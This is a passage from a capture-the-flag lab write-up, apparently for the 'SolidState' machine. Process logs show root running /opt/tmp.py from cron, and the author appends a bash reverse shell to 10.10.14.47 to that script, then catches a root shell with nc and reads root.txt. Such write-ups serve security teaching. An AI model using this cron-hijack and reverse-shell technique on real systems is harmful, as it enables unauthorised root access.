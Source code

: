
Every three minutes I see:

    
    
    2020/04/29 22:42:01 CMD: UID=0    PID=1104   | /usr/sbin/CRON -f 
    2020/04/29 22:42:01 CMD: UID=0    PID=1105   | /usr/sbin/CRON -f 
    2020/04/29 22:42:01 CMD: UID=0    PID=1106   | /bin/sh -c python /opt/tmp.py 
    2020/04/29 22:42:02 CMD: UID=0    PID=1107   | python /opt/tmp.py 
    2020/04/29 22:42:02 CMD: UID=0    PID=1108   | sh -c rm -r /tmp/*
    2020/04/29 22:45:01 CMD: UID=0    PID=1150   | /usr/sbin/CRON -f 
    2020/04/29 22:45:01 CMD: UID=0    PID=1151   | /usr/sbin/CRON -f 
    2020/04/29 22:45:01 CMD: UID=0    PID=1152   | /bin/sh -c python /opt/tmp.py 
    2020/04/29 22:45:01 CMD: UID=0    PID=1153   | python /opt/tmp.py 
    2020/04/29 22:45:01 CMD: UID=0    PID=1154   | sh -c rm -r /tmp/*  
    

root is running this file.

### Exploit

I’ll modify the file to add a reverse shell into it:

    
    
    #!/usr/bin/env python
    import os
    import sys
    try:
         os.system('rm -r /tmp/* ')
    except:
         sys.exit()
    os.system('bash -c "bash -i >& /dev/tcp/10.10.14.47/443 0>&1"')
    

This last line should initiate a shell back to me once root runs it. At the
next turn of three minutes, I get a connection:

    
    
    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.51.
    Ncat: Connection from 10.10.10.51:49594.
    bash: cannot set terminal process group (1170): Inappropriate ioctl for device
    bash: no job control in this shell
    root@solidstate:~# id
    uid=0(root) gid=0(root) groups=0(root)
    

And can grab `root.txt`:

    
    
    root@solidstate:~# cat root.txt 
    b4c9723a************************
    

## Beyond Root

